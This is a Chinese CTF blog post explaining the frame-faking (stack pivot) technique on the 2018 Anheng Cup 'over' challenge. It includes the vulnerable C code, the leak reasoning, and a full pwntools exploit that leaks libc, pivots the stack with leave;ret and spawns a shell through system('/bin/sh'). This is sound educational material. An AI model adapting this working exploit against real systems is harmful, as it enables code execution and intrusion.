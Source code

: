 ﻿---
layout:     post
title:      栈溢出基础浅记（5）
subtitle:   
date:       2023-10-12
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
    - ctf
---

## frame faking(栈伪造)

——from ctf wiki [花式栈溢出技巧](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#frame-faking)

这个方法其实就是利用leave，ret实现控制EBP，最终实现控制程序执行流。

### 2018 安恒杯 [over](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/fake_frame/over)

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( sub_400676() )
    ;
  return 0LL;
}

int sub_400676()
{
  char buf[80]; // [rsp+0h] [rbp-50h]

  memset(buf, 0, sizeof(buf));
  putchar('>');
  read(0, buf, 96uLL);
  return puts(buf);
}
```

![16971205870941697120586276.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16971205870941697120586276.png)

使用gdb调试可以发现，在sub_400676中，buf大小为80，read最多能读入0x60。栈溢出共16字节，即只有rbp和返回地址。

注意：此时RBP的值即为当前函数返回后的RBP地址，从gdb中可以看到buf的地址+0x70=返回吼的RBP地址。

由于后者可以通过puts函数直接泄露，所以可以通过该地址-0x70泄露得到buf的地址。之后我们就可以通过栈溢出将当前rbp覆盖为buf的地址，返回地址用（leave，ret）覆盖。具体的思路如下图：

![1697121209095f80110eb7668327945bd41b8d0fbe02.jpg](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/1697121209095f80110eb7668327945bd41b8d0fbe02.jpg)

实际上共三个payload，第一个 `b"a" * 80`，通过下面的puts直接泄露出buf地址。

第二个用于得到libc的地址，第三个用于执行execve，这两个payload的栈布局都是按照上面的图片。

exp如下：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from LibcSearcher import LibcSearcher

# context.log_level = "debug"
sh = process("./over.over")
file = ELF("./over.over")

sh.sendafter(b">", b"a" * 80)

stack = u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\0")) - 0x70
success("stack -> {:#x}".format(stack))

puts_plt = file.plt["puts"]
puts_got = file.got["puts"]
# ROPgadget --binary ./over.over --only "pop|ret" | grep rdi
# 0x0000000000400793 : pop rdi ; ret
pop_rdi_ret = 0x400793
sub_400676 = 0x400676
# ROPgadget --binary ./over.over --only "leave|ret"
# 0x00000000004006be : leave ; ret
leave_ret = 0x4006BE
payload = (
    b"11111111"
    + p64(pop_rdi_ret)
    + p64(puts_got)
    + p64(puts_plt)
    + p64(sub_400676)
    + (80 - 40) * b"1"
    + p64(stack)
    + p64(leave_ret)
)
sh.sendafter(">", payload)
puts_got_addr = u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\0"))
success("puts_got_addr -> {:#x}".format(puts_got_addr))

libc = LibcSearcher("puts", puts_got_addr)
libc_base = puts_got_addr - libc.dump("puts")
success("libc_base -> {:#x}".format(libc_base))

system_addr = libc_base + libc.dump("system")
binsh_addr = libc_base + libc.dump("str_bin_sh")
# ROPgadget --binary ./over.over --only "pop|ret" | grep rsi
# 0x0000000000400791 : pop rsi ; pop r15 ; ret
pop_rsi_r15_ret = 0x400791
# gdb.attach(sh, "b *0x4006ad\n")
payload = (
    b"22222222"
    + p64(pop_rdi_ret)
    + p64(binsh_addr)
    + p64(pop_rsi_r15_ret)
    + p64(0)
    + p64(0)
    + p64(system_addr)
    + (80 - 7 * 8) * b"2"
    + p64(stack - 0x30)
    + p64(leave_ret)
)
sh.sendafter(">", payload)
sh.interactive()

```

每次执行payload的时候，buf的位置有可能会不一样，需要用gdb先看看情况

![16971233675471697123367211.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16971233675471697123367211.png)

这里看到，第二次payload中的buf位置为f50，需要在原本的基础上-0x30
